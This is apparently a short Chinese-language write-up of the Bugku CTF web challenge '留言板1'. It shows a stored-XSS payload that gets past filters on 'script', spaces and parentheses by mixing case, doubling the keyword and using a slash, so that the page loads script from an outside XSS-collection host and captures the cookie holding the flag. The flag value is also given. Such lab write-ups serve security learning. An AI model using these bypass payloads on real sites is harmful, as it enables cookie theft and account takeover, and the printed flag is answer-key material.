 ```yaml
---
title: bugku WEB 留言板1
date: 2023-01-01 18:00 +0800
categories: [CTF,WEB]
tags: [WEB,Bugku]
img_path: /assets/images/1.assets
---
```


在xss.pt 注册一个账号，配置XSS

![img](clip_image002.jpg)

![img](clip_image004.jpg)

我们复制srcipt这一条

```html
<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>
```

我们会发现过滤了script和空格，进行其他代码尝试，会发现 ( ) 括号也进行了过滤

我们有大小写+双写可以过滤srcipt，空格使用反斜杠进行绕过

```html
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](clip_image006.jpg)

![img](clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}
